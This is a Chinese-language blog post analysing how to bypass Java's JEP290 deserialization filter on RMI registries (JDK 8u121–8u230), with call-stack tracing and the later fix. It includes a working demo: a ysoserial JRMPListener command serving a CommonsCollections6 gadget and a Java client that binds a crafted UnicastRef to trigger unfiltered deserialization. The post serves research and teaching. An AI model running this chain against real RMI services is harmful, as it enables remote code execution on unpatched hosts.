前言：其实是写了RMI反序列化以及
3端互打的，但是感觉基本上都是摘抄网上的有点啰嗦就删了。然后下文主要是讲绕过RMI反序列化中的JEP290。然后笔者是把其绕过原理理解成2条通信（或者说线程）而设置JEP290只作用于第一条通信，通过第二条通信进行绕过
JEP290
参考很多这篇文章，https://www.anquanke.com/post/id/259059#h3-1
JEP290干嘛的，简单说就是一个防御反序列化攻击的黑白名单过滤器
- 提供一个限制反序列化类的机制，白名单或者黑名单
- 限制反序列化的深度和复杂度
- 为 RMI 远程调用对象提供了一个验证类的机制
- 定义一个可配置的过滤机制，比如可以通过配置properties文件的形式来定义过滤器。
JEP290支持的版本：
- Java™ SE Development Kit 8, Update 121 (JDK 8u121)
- Java™ SE Development Kit 7, Update 131 (JDK 7u131)
- Java™ SE Development Kit 6, Update 141 (JDK 6u141)
设置JEP290的方式有下面两种：
- 通过setObjectInputFilter来设置filter
- 直接通过conf/security/java.properties文件进行配置
JEP290应用
在
RMI反序列化中应用在register端，比如bind绑定对象时，JEP290是需要设置的，像Client和Server之间的互打则没有JEP290的检测，所以之后的版本还是能相互打。
在8u121后，java在oldDispatch#unmarshalCustomCallData()中通过setObjectInputFilter进行设置


这里UnicastServerRef.this.filter存储的是一个表达式RegistryImpl::registryFilter，这也是为什么后面会调到这个registryFilter方法进行检测

JEP290作用点
没有JEP290时，我们通过下图readObject就可以成功实现反序列化攻击

JEP290作用点也在这个readObject中，这里serialFilter就是前面的filter(RegistryImpl::registryFilter)，进入registryFilter，registryFilter就是JEP290设置的过滤Filter，这里会先将需要反序列化的类进行白名单检测(就是这个return判断)，然后再进行反序列化


白名单如下：
String.class
Number.class
Remote.class
Proxy.class
UnicastRef.class
RMIClientSocketFactory.class
RMIServerSocketFactory.class
ActivationID.class
UID.class
这里我们的恶意对象不在白名单中，从而导致我们反序列化攻击失败
Bypass 8u121~8u230
这里绕过思路是，
serialFilter作用于我们的恶意Server端和Register端的反序列化，但其实在这个过程中还存在一段通信，而这段通信中的serialFilter和第一段通信的serialFilter是相互独立的，及第二段通信反序列化不会有这个检测，且这段通信的数据也是序列化传输的，所以如果我们可以在第一段流程中控制第二段通信的服务地址，连接上我们的恶意服务，返回恶意反序列化内容即可反序列化攻击成功，光看这段描述可能不太能理解，不用担心，可以看看下面具体分析
实现demo
这里攻击的是register
依次执行下面命令和java文件
C:\MyFiles\Tools\ENV\JAVA\jdk1.8.0_192\bin\java.exe -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections6 "calc"
RMIRegistry
package JEP290;
import java.rmi.registry.LocateRegistry;
public class RMIRegistry {
public static void main(String[] args) {
try {
LocateRegistry.createRegistry(1099);
System.out.println("RMI Registry Start");
} catch (Exception e) {
e.printStackTrace();
}
while (true) ;
}
}
DefineClient
package JEP290;
import com.example.HelloImpl;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;
public class DefineClient {
public static void main(String[] args) throws Exception {
Registry registry = LocateRegistry.getRegistry(1099);
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("localhost", 3333);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
// lookup方法也可以，但需要手动模拟lookup方法的流程
registry.bind("pwn", handler);
}
}
简单流程分析
在原先readOject下面这里var2.releaseInputStream();会进行第二段通信利用

在registerRefs会得到JRMP段服务地址，这个值怎么初始化的后面会提到

这里lookup其实没干什么，只是封装了下我们的var0


后续在executeCall()中this.getInputStream();建立新的通讯，然后将接收序列化数据执行反序列化


调用栈
executeCall:220, StreamRemoteCall (sun.rmi.transport)
invoke:375, UnicastRef (sun.rmi.server)
dirty:109, DGCImpl_Stub (sun.rmi.transport)
makeDirtyCall:382, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:324, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:160, DGCClient (sun.rmi.transport)
registerRefs:102, ConnectionInputStream (sun.rmi.transport)
releaseInputStream:157, StreamRemoteCall (sun.rmi.transport)
dispatch:80, RegistryImpl_Skel (sun.rmi.registry)
oldDispatch:468, UnicastServerRef (sun.rmi.server)
dispatch:300, UnicastServerRef (sun.rmi.server)
TCPEndpoint（JRMP段地址）的赋值
他的赋值其实是在原先反序列化利用点开始的

我们设置的对象是专门继承RemoteObject(继承Remote在白名单上)的，到其的readObject，跟进ref.readExternal(in);

跟进LiveRef.read

这里会从序列化数据提取出ip和port，生成一个TCPEndpoint赋给var2，然后封装成一个LiveRef传到var6.saveRef()里

saveRef()里最后存在到incomingRefTable这个table里面，可以回头看利用分析，就是从这个变量取的对象

2段通信 & serialFilter
这里有个点需要搞清楚关于serialFilter
第一段通信
第一段通信，第一段通信是建立于我们Server端bind(),向Register端进行数据传输，记住这里的ConnectionInputStream@982编号，他的super的super既是ObjectInputStream(存储serialFilter)

然后没有特别设置的话，serialFilter是为null的

第一段通信中，我们知道在unmarshalCustomCallData()中给this.serialFilter设置了值，注意这里编号ConnectionInputStream@982

第二段通信，JRMP协议
注意到UnicastRef#invoke=>executeCall()=>this.getInputStream();会建立新的通信，这里编号为ConnectionInputStream@1160

public ObjectInput getInputStream() throws IOException {
if (this.in == null) {
Transport.transportLog.log(Log.VERBOSE, "getting input stream");
this.in = new ConnectionInputStream(this.conn.getInputStream());
}
return this.in;
}

进行初始化，所以这里serialFilter为null，并不存在第一段通信设置的值

及反序列化的时候也不会存在检测


小结:
这里我想表达什么呢，就是分清楚，这种方法
为什么可以绕过JEP290，第一段通信是和Server端，第二段是和JMRP端。这里ConnectionInputStream其实就代表着ObjectInputStream，而第一段通信中设置的serialFilter只作用于第一段通信中，及只作用于Register和Server之间的readObject中！！（JEP290作用域）
相信对上面的分析，对JEP290有比较清晰的理解了
修复：
在dirty()方法中建立通讯后，给this.filter设置了一个JEP290(表达式)

然后在this.in的serialFilter中设置上这个filter

然后被检测出来

Bypass 8u231~8u240
在8u231之前我们是通过dirty()这里绕过的，然后被修复了。8u231这里这是通过直接达到UnicastRef#invoke，不经过dirty()，仅靠第一次反序列化完成这些操作。但是下一个版本就被修了hhh，具体可以参考这篇https://www.anquanke.com/post/id/259059#h3-10
参考：
https://xz.aliyun.com/t/8706?time__1311=n4%2BxnD0DcDu0eD5Y40HpDUhEIDkB711H4D#toc-8